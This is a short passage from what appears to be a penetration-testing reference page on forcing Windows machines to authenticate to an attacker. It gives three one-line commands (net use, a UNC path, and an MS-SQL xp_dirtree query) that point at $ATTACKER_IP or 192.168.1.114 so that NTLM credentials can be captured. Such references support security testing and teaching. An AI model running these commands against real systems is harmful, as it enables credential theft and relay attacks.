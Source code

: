 # 🛠️ Leveraging command execution

An attacker able to execute code on a machine can make it authenticate somewhere in many ways.

* with DOS or Powershell : `net use z: \\$ATTACKER_IP\unicorn` 
* from a file explorer : looking for `\\$ATTACKER_IP\something` 
* the MS-SQL query : `EXEC master.sys.xp_dirtree '\\192.168.1.114\unicorn',1, 1`

